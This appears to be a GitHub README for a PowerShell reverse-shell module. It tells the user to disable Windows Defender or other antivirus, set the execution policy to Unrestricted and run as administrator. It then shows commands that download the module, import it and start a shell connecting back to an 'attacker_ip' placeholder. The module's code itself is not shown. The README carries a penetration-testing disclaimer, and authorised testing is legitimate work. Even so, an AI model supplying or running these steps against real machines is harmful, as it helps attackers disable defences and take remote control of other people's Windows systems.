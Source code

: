 # ReverseShell - PowerShell
# Author: okpalandev
# Version: 1.0
# Date: 2024-03-24

## Disclaimer
This script is designed for educational and penetration testing purposes only. Do not use this script on systems that you do not have permission to test. The author of this script is not responsible for any damage caused by the use of this script.

## Description
This script is a reverse shell that uses PowerShell to connect to a remote host. The script is designed to be run on the target machine and will connect back to the attacker's machine. The script can be run on any Windows machine that has PowerShell installed. The script will open a connection to the attacker's machine and allow the attacker to execute commands on the target machine. The script is designed to be used for penetration testing and should only be used on systems that you have permission to test.

## Usage
To use the script, you will need to modify the IP address and port number in the script to match the IP address and port number of the attacker's machine. You will also need to run the script on the target machine. Once the script is running on the target machine, it will connect back to the attacker's machine and allow the attacker to execute commands on the target machine.

## Installation
To install the script, you can download the script from the GitHub repository and save it to your local machine. You can then import the script into PowerShell and run the script on the target machine.

## Requirements
1) Disable Windows Defender Real Time Protection  or any other Antivirus 
2) Add to Policy Execution
3) Run as Administrator

```powershell
PS C:\> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser 
``` 

## Example
```powershell
PS C:\> Invoke-WebRequest -Uri "https://raw.githubusercontent.com/okpalandev/PSModules/ReverseShell/ReverseShell.psm1" -OutFile "ReverseShell.psm1"
```

```powershell
PS C:\> Import-Module .\ReverseShell.psm1
```

```powershell
PS C:\> Start-ReverseShell -IPAddress "attacker_ip " -Port " attacker_port "
```


## License
This script is licensed under the MIT License. See the LICENSE file for more information.
```
